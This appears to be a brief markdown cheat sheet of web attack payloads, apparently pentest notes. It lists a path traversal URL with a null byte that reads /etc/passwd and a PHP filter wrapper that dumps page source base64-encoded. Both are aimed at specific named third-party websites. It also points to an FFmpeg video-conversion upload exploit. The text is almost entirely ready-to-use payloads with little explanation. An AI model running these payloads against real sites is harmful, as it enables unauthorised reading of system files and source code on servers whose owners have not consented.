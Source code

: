 # Path Traversal

```
http://party.popelka-webdesign.eu/fotogalerie.php?id=
http://party.popelka-webdesign.eu/fotogalerie.php?id=../../../../../../../../../../etc/passwd%00
Fuzzing + Payloads 
```

### PHP Wrappers

```
php://filter/convert.base64-encode/resource=index
```

```
http://dns2.consulintel.es/index.php?page=php://filter/convert.base64-encode/resource=index
```

### Video Converters bug

```
avi File -> FFMPEG -> MP4 File 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
https://www.files-conversion.com/
```
